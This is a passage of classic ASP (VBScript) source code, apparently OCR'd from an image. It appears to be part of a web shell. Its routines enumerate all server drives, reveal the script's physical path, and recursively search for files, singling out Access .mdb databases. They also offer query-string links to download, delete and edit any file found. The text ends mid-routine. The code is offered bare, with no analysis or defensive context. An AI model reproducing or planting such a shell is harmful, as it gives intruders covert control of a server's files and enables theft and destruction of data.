     If Len(path_) &gt; 0 Then
        cur = path_&"\"
        If cur = "\\" Then cur = ""
            parent = ""
            If InStrRev(cur,"\") &gt; 0 Then
            parent = Left(cur, InStrRev(cur, "\", Len(cur)-1))
        End If
    Else
        cur = ""
    End If
    
    Set f = myFSO.GetFolder(cur)
    Set fc = f.Files
    For Each f1 In fc
        if lcase(InStr(1,f1.name,lcase(ara_)))&gt;0 then
            downStr = "&lt;font face=webdings size=5&gt;&lt;a href='"& Request.ServerVariables("SCRIPT_NAME") & "?action=download&file=" & Replace(f1.path,"\","|") &"'&gt;?/a&gt;&lt;/font&gt;"
            if lcase(ara_)="mdb" then
                Response.Write downStr&"&lt;font face=wingdings size=5&gt;&lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=del&path=" & Replace(f1.path,"\","|") & "'&gt;?/a&gt;&lt;/font&gt; * &lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=search&status=7&path="&f1.path&"'&gt;"& f1.path &" ["&f1.size&"]"&"&lt;/a&gt;&lt;/b&gt;&lt;br&gt;"
            else 
                Response.Write downStr&"&lt;font face=wingdings size=5&gt;&lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=del&path=" & Replace(f1.path,"\","|") & "'&gt;?/a&gt;&lt;a href='"& Request.ServerVariables("SCRIPT_NAME") & "?action=txtedit&file=" & Replace(f1.path,"\","|") &"'&gt;!&lt;/a&gt;&lt;/font&gt; - &lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=search&status=5&path="&f1.path&"'&gt;"& f1.path &" ["&f1.size&"]&lt;/a&gt;&lt;/b&gt;&lt;br&gt;"
            end if
        end if
    Next
    Set fs = f.SubFolders
    For Each f1 In fs
        araBul f1.path,ara_
    Next
    Set    f        = Nothing
    Set fc        = Nothing
    Set fs        = Nothing
end sub
Sub showcontent()
    showdisks=TRUE
    Response.Write "&lt;font face=""arial"" size=""1""&gt;.:: &lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?raiz=root""&gt;DRIVES&lt;/a&gt; ::.&lt;br&gt;.:: SCRIPT PATH: " & UCase(Server.MapPath(Request.ServerVariables("SCRIPT_NAME"))) & "&lt;br&gt;&lt;br&gt;&lt;/font&gt;"
    If Trim(Request.QueryString("raiz")) = "root" Then
        Set fs=Server.Createobject("Scripting.FileSystemObject")
        Set drivecollection=fs.drives
        Response.Write "&lt;font face=""arial"" size=""2""&gt;"
        For Each drive IN drivecollection 
            str=drive.driveletter & ":"
            Response.Write "&lt;b&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?raiz=" & str & """&gt;" & UCase(str) & "&lt;/a&gt;&lt;/b&gt;&lt;br&gt;"
            Select Case drive.DriveType
                Case 0
                    tipodrive = "Unknown"
                    nomedrive = drive.VolumeName
                Case 1
                    tipodrive = "Removable"
                    If drive.isready Then
                        nomedrive = drive.VolumeName
                    Else
                        nomedrive = ""
                    End If
                Case 2